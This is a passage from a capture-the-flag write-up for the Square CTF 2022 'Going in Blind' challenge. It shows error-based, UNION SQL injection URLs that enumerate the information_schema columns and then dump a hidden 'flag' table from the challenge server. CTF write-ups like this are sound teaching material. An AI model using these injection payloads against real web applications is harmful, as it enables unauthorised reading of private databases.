 ```
Sorry, flag,user is the wrong user
```

It appears that there is a hidden table called "flag"! Knowing this I decided to explore columns of the flag table.

```
http://chals.2022.squarectf.com:4103/?username=%27%20union%20select%20group_concat%28column_name%29%20from%20information_schema.columns%20where%20table_name%3D%27flag%27%20--%20-
```

This returned the following error.

```
Sorry, flag is the wrong user
```

Indicating that there was a column named flag. I then decided to explore all of the entries in the flag table.

```
http://chals.2022.squarectf.com:4103/?username=%27%20union%20select%20group_concat%28flag%29%20from%20flag%20--%20-
```

This produced the flag proving that it was hidden in the database as a hidden entry.

<img src="{{ "assets/writeups/square-ctf-2022/going-in-blind-chall-4.png" | relative_url }}" alt="Flag acquired for 'Going in Blind'!" width="70%"/>

While this method was a bit long for the first problem, the exploratory error based SQLi alowed for a better understanding of the overall database schema leading to a successful solve on this problem.

To view the released challenge source to test this exploit on your own, visit the following link: [https://squarectf.com/2022/goinginblind.html](https://squarectf.com/2022/goinginblind.html).
